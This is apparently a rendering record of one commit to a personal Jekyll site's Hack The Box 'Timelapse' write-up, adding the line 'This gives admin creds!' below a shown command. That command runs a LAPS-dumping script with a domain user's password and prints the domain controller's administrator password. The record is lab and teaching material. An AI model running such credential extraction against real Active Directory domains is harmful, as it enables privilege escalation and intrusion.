

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/htb/timelapse.md, in a window 1280 px wide and 900 px high, scrolled down 10310 px. Shown: the top 824 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 11042 px from its top, so only the background shows below that.

Commit message:
Update timelapse.md

````diff
--- a/_pages/htb/timelapse.md
+++ b/_pages/htb/timelapse.md
@@ -422,3 +422,9 @@ if __name__ == "__main__":
 [connor@fedora timelapse]$ python laps.py -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb
 DC01$:[},r9L86NT,/%+gE]).61X-9
 ```
+
+<br>
+
+This gives admin creds!
+
+<br>
````
